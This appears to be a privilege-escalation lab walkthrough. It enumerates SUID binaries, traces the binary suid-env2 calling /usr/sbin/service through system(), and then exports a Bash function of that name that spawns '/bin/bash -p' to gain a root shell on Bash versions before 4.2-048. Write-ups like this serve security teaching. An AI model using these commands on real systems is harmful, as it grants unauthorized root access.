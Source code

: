 #### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env2`

![](../../../.gitbook/assets/soi8.png)

The file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

![](../../../.gitbook/assets/soi9.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`

This reveals that the system function is being used to execute the /usr/sbin/service program

Verify the version of Bash is lower than 4.2-048:

#### `bash --version`

Create a Bash function with the name “/usr/sbin/service” and export the function:

#### `function /usr/sbin/service { /bin/bash -p; }` ` export -f /usr/sbin/service`
